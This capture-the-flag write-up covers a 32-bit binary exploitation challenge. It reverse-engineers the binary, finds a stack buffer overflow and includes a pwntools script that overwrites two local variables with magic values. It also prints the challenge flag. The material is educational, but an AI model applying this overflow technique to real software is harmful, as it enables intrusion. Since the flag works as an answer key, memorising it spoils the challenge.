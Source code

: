 # !Kogarashi Café - The Forbidden Recipe  

**Category:** Binary Exploitation  

A final challenge that involves exploiting a stack-based buffer overflow to manipulate local variables and extract the flag.  

---

### Challenge  

**Provided File:** `forbidden_recipe`  

---

## Overview  

1. **Analyzing the Binary**  
   - Use `file forbidden_recipe` to determine the binary type:
     ```sh
     forbidden_recipe: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=c1033e4a4b053363f711f388f116277a1cbde252, not stripped
     ```
   - Run `strings forbidden_recipe` to find readable text inside:
     ```sh
     Barista: 'Ah... I see you've returned for the special blend.'
     Barista: 'The secret recipe... lost?
     ```
   - Disassemble the binary using `objdump`:
     ```sh
     objdump -d forbidden_recipe > disassembly.txt
     ```
   - Load the binary in **Ghidra** or **Binary Ninja** to reverse-engineer its logic.  

2. **Identifying the Vulnerability**  
   - The binary has a **stack-based buffer overflow** vulnerability.
   - By overflowing the buffer, we can overwrite **local variables** (`local_14` and `local_10`) with specific values.
   - This allows us to manipulate program execution and extract the flag.  

---

## Steps to Exploit  

1. **Check Binary Properties**  
   ```sh
   file forbidden_recipe  
   checksec --file=forbidden_recipe  
   strings forbidden_recipe  
   ```

2. **Reverse Engineer the Binary**  
   - Load in **Ghidra** or **Binary Ninja** to analyze the functions.
   - Identify the buffer size and which values need to be overwritten.

3. **Exploit Buffer Overflow**  
   - Send a payload that fills the buffer (32 bytes) and precisely overwrites two critical local variables.
   - Set `local_14` to `0xdecafbad` and `local_10` to `0xc0ff33` to trigger the correct execution path.  

---

## Exploit Script  

```python
from pwn import *

# Connection details
HOST = "chals1.apoorvctf.xyz"
PORT = 3002

# Establish remote connection
conn = remote(HOST, PORT)

# Wait for the prompt (adjust as needed)
conn.recvuntil(b"what will it be this time?'\n")

# Construct the payload:
# 32 bytes to fill the buffer, then:
# p32(0xdecafbad) -> overwrites local_14
# p32(0xc0ff33)  -> overwrites local_10
payload = b"A" * 32
payload += p32(0xdecafbad)  # Overwrite local_14
payload += p32(0xc0ff33)    # Overwrite local_10

# Send the payload
conn.sendline(payload)

# Receive and print the response (the flag should be in the output)
response = conn.recvall().decode()
print(response)

conn.close()
```

---

## Extracted Flag  

```
apoorvctf{d3caf_is_bad_f0r_0verfl0ws}
```

